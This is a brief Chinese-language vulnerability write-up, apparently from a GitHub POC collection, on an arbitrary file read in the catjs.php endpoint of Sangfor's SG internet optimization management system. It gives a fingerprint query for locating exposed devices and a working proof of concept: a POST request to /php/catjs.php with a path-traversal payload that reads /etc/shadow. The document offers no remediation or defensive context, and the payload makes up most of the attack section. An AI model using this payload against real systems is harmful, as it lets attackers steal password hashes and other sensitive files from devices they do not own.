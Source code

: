 # 深信服 SG上网优化管理系统 catjs.php 任意文件读取漏洞

# 深信服 SG上网优化管理系统 catjs.php 任意文件读取漏洞

## 漏洞描述

深信服 SG上网优化管理系统 catjs.php 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感文件

## 漏洞影响

深信服 SG上网优化管理系统

## 网络测绘

```
title=="SANGFOR上网优化管理"
```

## 漏洞复现

登陆页面

![image-20230828111216211](images/image-20230828111216211.png)

验证POC

```
POST /php/catjs.php

["../../../../../../etc/shadow"]
```

![image-20230828111228485](images/image-20230828111228485.png)

